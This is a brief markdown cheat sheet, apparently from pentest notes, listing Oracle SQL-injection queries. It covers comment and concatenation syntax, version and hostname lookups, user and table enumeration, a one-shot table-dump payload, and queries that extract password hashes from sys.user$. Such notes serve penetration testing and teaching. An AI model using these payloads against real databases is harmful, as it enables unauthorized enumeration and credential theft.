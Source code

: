 # sqli oracle-sql

## sqlPlus

```
sqlplus USER/PASSWORD@IP/SID [as sysdba]
```

## oracle-sql commands

[https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/](https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/)

**SELECT statements MUST have a FROM clause. Use dummy table `dual`.**

```bash
# comments
--
/* <blah> */

# concat
SELECT 'A'||'B' FROM dual

# hostname
SELECT host_name FROM v$instance;
SELECT UTL_INADDR.get_host_name FROM dual;

# version
SELECT version FROM v$instance;
SELECT banner FROM v$version WHERE rownum=1

# users
SELECT user FROM dual
SELECT username FROM all_users
SELECT name FROM sys.user$

# user privs
SELECT * from user_role_privs;

# password (DES)
# astatus = if account is locked
SELECT password, astatus FROM sys.user$
SELECT name,spare4 FROM sys.user$

# databases
SELECT global_name FROM global_name
SELECT name FROM v$database
SELECT instance_name FROM v$instance
SELECT SYS.DATABASE_NAME FROM DUAL
| SELECT DISTINCT owner FROM all_tables

# tables
SELECT table_name FROM all_tables;
# DIOS: dump in one shot
select rtrim(xmlagg(xmlelement(e, table_name || ',')).extract('//text()').extract('//text()') ,',') from all_tables
| (SELECT replace(wm_concat('<li>'||table_name),',','') FROM all_tables)

# cols
SELECT column_name FROM all_tab_columns WHERE table_name = '<table>'

# 9th row
SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9
```
